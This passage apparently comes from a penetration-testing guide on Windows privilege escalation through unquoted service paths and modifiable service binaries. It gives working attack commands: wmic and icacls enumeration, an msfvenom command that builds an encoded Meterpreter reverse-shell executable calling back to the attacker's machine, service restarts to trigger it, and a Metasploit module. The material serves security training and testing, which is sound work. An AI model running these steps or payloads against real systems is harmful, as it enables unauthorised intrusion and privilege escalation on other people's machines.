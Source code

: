 An attacker could exploit this behaviour by putting a malicious program earlier in the file path so that Windows executes it before the legitimate one. In order for this to be successful, these conditions must be true:

1. There is a service with an unquoted binary path containing one or more spaces in the path
2. The current user has Write permissions for the folders containing spaces
3. There is a way to reboot the system or service in order to execute a payload

List all services with an unquoted service path:

```text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

If this returns a an unquoted service path, use icacls to check permissions on each directory in the path:

```text
icacls "C:\Program Files\Some Software\"
```

If you can write to this directory, you can replace the executable with malicious one called `Some.exe`. This principle also applies to higher folders in the directory structure, if you have write permissions \('C:\' and 'C:\Program Files\'.

You can create a malicious .exe that sends a reverse shell to your machine with Metasploit \(assuming there is no antivirus, haha\):

```text
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attack machine] LPORT=443 -f exe -o servicename.exe
```

Then restart the service:

```text
sc stop [service name]

sc start [service name]
```

If you don't have permission to restart the service, you'll have to wait for a system reboot or a more privileged user to restart it.

If you're super lazy you can just use this Metasploit module: `exploit/windows/local/trusted_service_path`

## Modifying binary service path

Similar to the unquoted service path vulnerability, you can attempt to modify the file path of a service and point it to a malicious executable in a writable directory.

Windows has a tool called named `accesschk.exe` which checks permissions. To display services which can be modified by an authenticated user:

```text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
